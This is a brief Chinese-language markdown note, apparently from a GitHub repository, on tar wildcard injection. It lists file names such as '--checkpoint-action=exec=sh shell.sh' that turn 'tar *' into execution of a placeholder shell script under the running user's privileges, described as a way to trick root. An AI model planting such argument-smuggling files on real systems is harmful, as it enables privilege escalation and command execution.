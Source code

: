 # TAR命令执行
通过使用带有–checkpoint-action选项的tar命令, 可以在一个检查点后进行一个特定的行为。这个行为可能是一个用来在启动tar命令进程的用户（权限）下执行任意命令的恶意shell脚本。诱骗root用户使用这个选项是相当容易的，这也是通配符派的上用场的地方。

## Exploit

这些文件对"tar *"造成恶意影响
```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

## 感谢
* 
